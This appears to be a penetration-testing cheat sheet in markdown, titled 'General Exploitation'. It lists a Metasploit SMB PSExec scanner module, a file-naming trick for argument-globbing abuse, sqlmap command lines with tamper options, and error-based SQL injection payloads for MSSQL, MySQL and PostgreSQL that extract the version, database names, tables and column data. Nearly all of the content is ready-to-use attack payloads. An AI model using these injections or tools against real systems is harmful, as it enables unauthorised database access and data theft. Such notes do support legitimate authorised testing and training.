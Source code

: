 # General Exploitation

## [⬅ Back to Index](../README.md)

---

## Windows

### MSF

* PSExec Scanner (Multi-load)
  * `use auxiliary/scanner/smb/psexec_scanner`

## Linux

### Linux File manipulation

* Create files with weird characters (used for globbing manipulation):
  
  `touch -- "--file-with=weird characters"`

## Web

### SQL Injection

#### SQLMap

* `sqlmap -u <uri> --data "{ \"user\": \"1\"}" --tamper=charunicodeescape --dbms=<type> --technique=<technique>`
  * Techniques:
    * Default - all
    * T - time based
* `sqlmap -r <file>`
  * Reads URL, Method, Data/Parameters from file in the format of Network request export (e.g. from BURP).

#### MSSQL

* Error-based SQLi
  * General: `or 1 in (SELECT TOP 1 CAST(query as varchar(4096))) -- -`
    * Where `query` is anything like:
    * `@@version`
    * `user_name()`
    * `db_name(0)` calls master..sysdatabases
  * Get tables: `or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM db..sysobjects where xtype='U' and name no in ('','')); -- -`
    * Where `db` is the database name and `'',''` is an increasing list of known tables starting from blank `''` when none are known.
  * Columns: `db..syscolumns.name`
  * Data: `db..table where column not in ('')`
  * Casting to varchar to trigger errors: `CAST(id as varchar)+char(59)` (urlencode + to %2b if needed)
    * Output will look like `<int-etc>;` with char(59) (`;`) triggering the varchar type change.

#### MySQL

* Error-based SQLi
  * General: `union select count(*), concat(value, floor(rand(0)*2)) as z from information_schema.tables group by z;`

#### PostgreSQL

* Error-base SQLi
  * General: `select cast(query as numeric);`
    * `version()`
    * `(select table_name from information_schema.tables limit 1 offset x)` - offset 0,1,2,etc...